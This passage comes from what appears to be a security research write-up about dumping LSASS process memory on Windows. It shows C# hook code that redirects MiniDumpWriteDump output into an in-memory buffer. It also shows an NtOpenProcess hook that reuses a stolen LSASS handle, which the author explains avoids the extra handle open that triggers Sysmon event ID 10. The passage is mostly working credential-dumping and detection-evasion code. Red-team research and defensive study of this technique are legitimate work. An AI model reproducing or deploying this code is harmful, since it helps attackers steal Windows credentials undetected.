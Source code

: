 ```c#
        dc.Resize(dc.CurrentOffset + numberOfBytesToWrite);
    }

    Marshal.Copy(buffer, dc.Data, (int)dc.CurrentOffset, (int)numberOfBytesToWrite);
    dc.CurrentOffset += numberOfBytesToWrite;
    numberOfBytesWritten = numberOfBytesToWrite;

    int growth = (int)dc.CurrentOffset - (int)dc.Size;
    if (growth > 0) {
        dc.Size += (uint)growth;
    }

    return true;
}
```

Next we have the `WriteFile` function hook.  This function is tasked with expanding our in memory buffer when we detect that a file write has passed the end of our virtual file size and to also copy the content of the pending write to our in memory buffer instead of a real file.  Because memory dumps can be large, I added the concept of a memory dump size limit.  In this scenario if a memory dump goes beyond the limit, we simulate an ERROR_DISK_FULL error to prevent potential memory exhaustion on machines with limited resources.


```c#
static int NtOpenProcess(IntPtr ProcessHandle, uint desiredAccess, IntPtr ObjectAttributes, IntPtr ClientId) {

    int pid = Marshal.ReadInt32(ClientId);
    if(pid != lsassPid)
        return NtOpenProcess_orig(ProcessHandle, desiredAccess, ObjectAttributes, ClientId);

    IntPtr currentProcess = new IntPtr(-1);
    IntPtr newLsassHandle;

    if(!DuplicateHandle(currentProcess, lsassHandle, currentProcess, out newLsassHandle, 0, false, 0x2)) {
        Console.WriteLine("[!] Failed to fake NtOpenProcess on LSASS PID");
        return Marshal.GetLastWin32Error();
    }

    Marshal.WriteIntPtr(ProcessHandle, newLsassHandle);
    return 0;
}
```

Finally we have the `NtOpenProcess` hook.  I have to give a specific shout out to @TheRealWover here.  After some discussions relating to the `MiniDumpWriteDump` he pointed out that even though you use a stolen handle on LSASS, the internals of `MiniDumpWriteDump` will open an additional handle to the LSASS process.  This of course will trigger event ID 10 in SysMon.  After some digging around myself, I found the same behavior.  Internally, `MiniDumpWriteDump` eventually triggers a call to `RtlQueryProcessDebugInformation` which is where the source of the additional handle comes from.
